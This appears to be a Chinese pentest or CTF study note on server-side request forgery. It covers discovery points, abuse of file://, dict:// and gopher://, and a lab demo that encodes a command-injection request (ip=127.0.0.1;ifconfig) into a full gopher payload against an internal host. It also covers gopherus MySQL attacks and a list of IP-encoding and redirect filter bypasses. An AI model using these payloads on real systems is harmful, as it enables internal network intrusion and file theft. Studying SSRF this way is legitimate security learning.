




## 漏洞原理

服务器端请求伪造，也称为SSRF（Server-Side Request Forgery），是因为前端用户可以输入任意URL到后端服务器，而且服务器也没有对其URL进行严格的过滤和校验，导致攻击者可以构造一些恶意的URL让服务器去访问执行

## 主要安全影响

-读取服务器本地文件

-探测内网存活主机和开放端口

-攻击其他内网服务器及服务

## 漏洞挖掘

黑盒探针：

- 业务功能点

1. 社交分享功能：获取超链接的标题等内容进行显示
2. 转码服务：通过URL地址把原地址的网页内容调优使其适合手机屏幕浏览
3. 在线翻译：给网址翻译对应网页的内容
4. 图片加载/下载：例如富文本编辑器中的点击下载图片到本地；通过URL地址加载或下载图片
5. 图片/文章收藏功能：主要其会取URL地址中title以及文本的内容作为显示以求一个好的用具体验
6. 云服务厂商：它会远程执行一些命令来判断网站是否存活等，所以如果可以捕获相应的信息，就可以进行ssrf测试
7. 网站采集，网站抓取的地方：一些网站会针对你输入的url进行一些信息采集工作
8. 数据库内置功能：数据库的比如mongodb的copyDatabase函数
9. 邮件系统：比如接收邮件服务器地址
10. 编码处理, 属性信息处理，文件处理：比如ffpmg，ImageMagick，docx，pdf，xml处理器等
11. 未公开的api实现以及其他扩展调用URL的功能：可以利用google 语法加上这些关键字去寻找SSRF漏洞

- URL关键参数

```
share
wap
url
link
src
source
target
u
display
sourceURl
imageURL
domain
```

白盒分析：见代码审计（文件读取，加载，数据操作类的函数）

## 协议利用

http:// Web常见访问，如http://127.0.0.1

file:/// 从文件系统中获取文件内容，如，file:///etc/passwd

dict:// 字典服务器协议，访问字典资源，如，dict:///ip:6739/info：

sftp:// SSH文件传输协议或安全文件传输协议

ldap:// 轻量级目录访问协议

tftp:// 简单文件传输协议

gopher:// 分布式文档传递服务，可使用gopherus生成payload
由于有部分协议http这类不支持，可以gopher来进行通讯（mysql，redis等）

## 靶场演示



利用file协议查看hosts文件探测内网

file:///etc/hosts



爆破网段下主机



爆破端口号，探测服务
## gopher协议



探测到某一存活主机存在漏洞需要post，put请求，但是你是与外网主机交互，不是与内网主机交互要怎么向外网服务器发包才能利用漏洞，用gopher协议

由外网访问内网发包是向外网服务器发包而不是像内网服务器发包

1. 拿出想向内网发送但是只能发送向外网的数据包
```
POST / HTTP/1.1
Host: 8.216.44.184:9080
Content-Length: 23
Cache-Control: max-age=0
Origin: http://8.216.44.184:9080
Content-Type: application/x-www-form-urlencoded
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/143.0.0.0 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Referer: http://8.216.44.184:9080/
Accept-Encoding: gzip, deflate, br
Accept-Language: zh-CN,zh;q=0.9
Cookie: timezone=8
Connection: keep-alive

ip=127.0.0.1%3Bifconfig
```

把Host改为内网ip删除Accept-Encoding头

```
POST / HTTP/1.1
Host: 172.150.23.24
Content-Length: 23
Cache-Control: max-age=0
Origin: http://8.216.44.184:9080
Content-Type: application/x-www-form-urlencoded
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/143.0.0.0 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Referer: http://8.216.44.184:9080/
Accept-Language: zh-CN,zh;q=0.9
Cookie: timezone=8
Connection: keep-alive

ip=127.0.0.1%3Bifconfig
```

将修改后的数据包两次url编码

构造gopher协议

再在ssrf触发出将gopher协议作为参数传进去

```
POST / HTTP/1.1
Host: 8.216.44.184:9080
Content-Length: 5350
Cache-Control: max-age=0
Origin: http://8.216.44.184:9080
Content-Type: application/x-www-form-urlencoded
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/143.0.0.0 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Referer: http://8.216.44.184:9080/
Accept-Encoding: gzip, deflate, br
Accept-Language: zh-CN,zh;q=0.9
Cookie: timezone=8
Connection: keep-alive

url=gopher://172.150.23.24:80/_%25%35%30%25%34%66%25%35%33%25%35%34%25%32%30%25%32%66%25%32%30%25%34%38%25%35%34%25%35%34%25%35%30%25%32%66%25%33%31%25%32%65%25%33%31%25%30%61%25%34%38%25%36%66%25%37%33%25%37%34%25%33%61%25%32%30%25%33%31%25%33%37%25%33%32%25%32%65%25%33%31%25%33%35%25%33%30%25%32%65%25%33%32%25%33%33%25%32%65%25%33%32%25%33%34%25%30%61%25%34%33%25%36%66%25%36%65%25%37%34%25%36%35%25%36%65%25%37%34%25%32%64%25%34%63%25%36%35%25%36%65%25%36%37%25%37%34%25%36%38%25%33%61%25%32%30%25%33%32%25%33%33%25%30%61%25%34%33%25%36%31%25%36%33%25%36%38%25%36%35%25%32%64%25%34%33%25%36%66%25%36%65%25%37%34%25%37%32%25%36%66%25%36%63%25%33%61%25%32%30%25%36%64%25%36%31%25%37%38%25%32%64%25%36%31%25%36%37%25%36%35%25%33%64%25%33%30%25%30%61%25%34%66%25%37%32%25%36%39%25%36%37%25%36%39%25%36%65%25%33%61%25%32%30%25%36%38%25%37%34%25%37%34%25%37%30%25%33%61%25%32%66%25%32%66%25%33%38%25%32%65%25%33%32%25%33%31%25%33%36%25%32%65%25%33%34%25%33%34%25%32%65%25%33%31%25%33%38%25%33%34%25%33%61%25%33%39%25%33%30%25%33%38%25%33%30%25%30%61%25%34%33%25%36%66%25%36%65%25%37%34%25%36%35%25%36%65%25%37%34%25%32%64%25%35%34%25%37%39%25%37%30%25%36%35%25%33%61%25%32%30%25%36%31%25%37%30%25%37%30%25%36%63%25%36%39%25%36%33%25%36%31%25%37%34%25%36%39%25%36%66%25%36%65%25%32%66%25%37%38%25%32%64%25%37%37%25%37%37%25%37%37%25%32%64%25%36%36%25%36%66%25%37%32%25%36%64%25%32%64%25%37%35%25%37%32%25%36%63%25%36%35%25%36%65%25%36%33%25%36%66%25%36%34%25%36%35%25%36%34%25%30%61%25%35%35%25%37%30%25%36%37%25%37%32%25%36%31%25%36%34%25%36%35%25%32%64%25%34%39%25%36%65%25%37%33%25%36%35%25%36%33%25%37%35%25%37%32%25%36%35%25%32%64%25%35%32%25%36%35%25%37%31%25%37%35%25%36%35%25%37%33%25%37%34%25%37%33%25%33%61%25%32%30%25%33%31%25%30%61%25%35%35%25%37%33%25%36%35%25%37%32%25%32%64%25%34%31%25%36%37%25%36%35%25%36%65%25%37%34%25%33%61%25%32%30%25%34%64%25%36%66%25%37%61%25%36%39%25%36%63%25%36%63%25%36%31%25%32%66%25%33%35%25%32%65%25%33%30%25%32%30%25%32%38%25%35%37%25%36%39%25%36%65%25%36%34%25%36%66%25%37%37%25%37%33%25%32%30%25%34%65%25%35%34%25%32%30%25%33%31%25%33%30%25%32%65%25%33%30%25%33%62%25%32%30%25%35%37%25%36%39%25%36%65%25%33%36%25%33%34%25%33%62%25%32%30%25%37%38%25%33%36%25%33%34%25%32%39%25%32%30%25%34%31%25%37%30%25%37%30%25%36%63%25%36%35%25%35%37%25%36%35%25%36%32%25%34%62%25%36%39%25%37%34%25%32%66%25%33%35%25%33%33%25%33%37%25%32%65%25%33%33%25%33%36%25%32%30%25%32%38%25%34%62%25%34%38%25%35%34%25%34%64%25%34%63%25%32%63%25%32%30%25%36%63%25%36%39%25%36%62%25%36%35%25%32%30%25%34%37%25%36%35%25%36%33%25%36%62%25%36%66%25%32%39%25%32%30%25%34%33%25%36%38%25%37%32%25%36%66%25%36%64%25%36%35%25%32%66%25%33%31%25%33%34%25%33%33%25%32%65%25%33%30%25%32%65%25%33%30%25%32%65%25%33%30%25%32%30%25%35%33%25%36%31%25%36%36%25%36%31%25%37%32%25%36%39%25%32%66%25%33%35%25%33%33%25%33%37%25%32%65%25%33%33%25%33%36%25%30%61%25%34%31%25%36%33%25%36%33%25%36%35%25%37%30%25%37%34%25%33%61%25%32%30%25%37%34%25%36%35%25%37%38%25%37%34%25%32%66%25%36%38%25%37%34%25%36%64%25%36%63%25%32%63%25%36%31%25%37%30%25%37%30%25%36%63%25%36%39%25%36%33%25%36%31%25%37%34%25%36%39%25%36%66%25%36%65%25%32%66%25%37%38%25%36%38%25%37%34%25%36%64%25%36%63%25%32%62%25%37%38%25%36%64%25%36%63%25%32%63%25%36%31%25%37%30%25%37%30%25%36%63%25%36%39%25%36%33%25%36%31%25%37%34%25%36%39%25%36%66%25%36%65%25%32%66%25%37%38%25%36%64%25%36%63%25%33%62%25%37%31%25%33%64%25%33%30%25%32%65%25%33%39%25%32%63%25%36%39%25%36%64%25%36%31%25%36%37%25%36%35%25%32%66%25%36%31%25%37%36%25%36%39%25%36%36%25%32%63%25%36%39%25%36%64%25%36%31%25%36%37%25%36%35%25%32%66%25%37%37%25%36%35%25%36%32%25%37%30%25%32%63%25%36%39%25%36%64%25%36%31%25%36%37%25%36%35%25%32%66%25%36%31%25%37%30%25%36%65%25%36%37%25%32%63%25%32%61%25%32%66%25%32%61%25%33%62%25%37%31%25%33%64%25%33%30%25%32%65%25%33%38%25%32%63%25%36%31%25%37%30%25%37%30%25%36%63%25%36%39%25%36%33%25%36%31%25%37%34%25%36%39%25%36%66%25%36%65%25%32%66%25%37%33%25%36%39%25%36%37%25%36%65%25%36%35%25%36%34%25%32%64%25%36%35%25%37%38%25%36%33%25%36%38%25%36%31%25%36%65%25%36%37%25%36%35%25%33%62%25%37%36%25%33%64%25%36%32%25%33%33%25%33%62%25%37%31%25%33%64%25%33%30%25%32%65%25%33%37%25%30%61%25%35%32%25%36%35%25%36%36%25%36%35%25%37%32%25%36%35%25%37%32%25%33%61%25%32%30%25%36%38%25%37%34%25%37%34%25%37%30%25%33%61%25%32%66%25%32%66%25%33%38%25%32%65%25%33%32%25%33%31%25%33%36%25%32%65%25%33%34%25%33%34%25%32%65%25%33%31%25%33%38%25%33%34%25%33%61%25%33%39%25%33%30%25%33%38%25%33%30%25%32%66%25%30%61%25%34%31%25%36%33%25%36%33%25%36%35%25%37%30%25%37%34%25%32%64%25%34%63%25%36%31%25%36%65%25%36%37%25%37%35%25%36%31%25%36%37%25%36%35%25%33%61%25%32%30%25%37%61%25%36%38%25%32%64%25%34%33%25%34%65%25%32%63%25%37%61%25%36%38%25%33%62%25%37%31%25%33%64%25%33%30%25%32%65%25%33%39%25%30%61%25%34%33%25%36%66%25%36%66%25%36%62%25%36%39%25%36%35%25%33%61%25%32%30%25%37%34%25%36%39%25%36%64%25%36%35%25%37%61%25%36%66%25%36%65%25%36%35%25%33%64%25%33%38%25%30%61%25%34%33%25%36%66%25%36%65%25%36%65%25%36%35%25%36%33%25%37%34%25%36%39%25%36%66%25%36%65%25%33%61%25%32%30%25%36%62%25%36%35%25%36%35%25%37%30%25%32%64%25%36%31%25%36%63%25%36%39%25%37%36%25%36%35%25%30%61%25%30%61%25%36%39%25%37%30%25%33%64%25%33%31%25%33%32%25%33%37%25%32%65%25%33%30%25%32%65%25%33%30%25%32%65%25%33%31%25%32%35%25%33%33%25%34%32%25%36%39%25%36%36%25%36%33%25%36%66%25%36%65%25%36%36%25%36%39%25%36%37
```

### 攻击mysql

利用工具

 ptrhon2 gopherus.py --exploit mysql

username   root
执行语句  show variables like '%plugin%'

将生成的grepher协议再进行一次url编码

传参攻击完成

## SSRF过滤

1、无过滤直接获取

url=http://127.0.0.1/flag.php

2-3、IP地址进制绕过

十六进制

url=http://0x7F.0.0.1/flag.php

八进制

url=http://0177.0.0.1/flag.php

10 进制整数格式

url=http://2130706433/flag.php

16 进制整数格式，还是上面那个网站转换记得前缀0x

url=http://0x7F000001/flag.php

还有一种特殊的省略模式

127.0.0.1写成127.1

用CIDR绕过localhost

url=http://127.127.127.127/flag.php

还有很多方式

url=http://0/flag.php

url=http://0.0.0.0/flag.php

4、域名解析IP绕过

test.xiaodi8.com -> 127.0.0.1

url=http://test.xiaodi8.com/flag.php

5、长度限制IP绕过

url=http://127.1/flag.php

6、长度限制IP绕过

url=http://0/flag.php

7、利用重定向解析绕过

<?php

header("Location:http://127.0.0.1/flag.php");

url=http://47.94.236.117/xx.php

8、匹配且不影响写法解析

url=http://ctf.@127.0.0.1/flag.php?show
